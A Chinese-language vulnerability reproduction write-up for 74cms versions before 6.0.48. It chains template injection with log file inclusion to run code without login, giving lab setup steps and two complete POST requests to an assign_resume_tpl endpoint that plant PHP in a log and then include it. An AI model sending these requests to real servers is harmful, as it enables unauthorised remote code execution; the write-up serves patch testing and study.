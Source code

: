 

# 74cms v6.0.48模版注入+文件包含getshell

## 0x01 简介





骑士cms人才系统，是一项基于PHP+MYSQL为核心开发的一套**免费 +** 开源专业人才网站系统。软件具执行效率高、模板自由切换、后台管理功能方便等诸多优秀特点。



## 0x02 漏洞概述





骑士 CMS 官方发布安全更新，修复了一处远程代码执行漏洞。由于骑士 CMS 某些函数存在过滤不严格，攻击者通过构造恶意请求，配合文件包含漏洞可在无需登录的情况下执行任意代码，控制服务器。

## 0x03 影响版本





骑士 CMS < 6.0.48



**0x04 环境搭建**





骑士cms不支持php7.0，所以建议使用php5

官网下载6.0.20版本

![image-20201214112017128](.resource/74cms%20v6.0.48%E6%A8%A1%E7%89%88%E6%B3%A8%E5%85%A5+%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%ABgetshell/media/image-20201214112017128.png)

将源码放在web根目录下，访问/index.php进行安装



## 漏洞复现

1.发送如下请求：

```
http://[IP]/index.php?m=home&a=assign_resume_tpl
POST:
variable=1&tpl=<?php phpinfo(); ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>
```

![img](.resource/74cms%20v6.0.48%E6%A8%A1%E7%89%88%E6%B3%A8%E5%85%A5+%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%ABgetshell/media/640.png)

查看日志会发现已经记录了错误
位置：\phpstudy_pro\WWW\data\Runtime\Logs\Home

![img](.resource/74cms%20v6.0.48%E6%A8%A1%E7%89%88%E6%B3%A8%E5%85%A5+%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%ABgetshell/media/640-20201214112713818.png)

3.包含日志

```
http://[IP]/index.php?m=home&a=assign_resume_tpl
POST:
variable=1&tpl=data/Runtime/Logs/Home/20_12_12.log
```

日志名称就是当天的年月日，直接包含即可

![img](.resource/74cms%20v6.0.48%E6%A8%A1%E7%89%88%E6%B3%A8%E5%85%A5+%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%ABgetshell/media/640-20201214112801787.png)

为什么不能使用get来请求，因为url在提交给后台处理会被进行url编码，从而造成包含不成功，因此要采取post方式发送payload



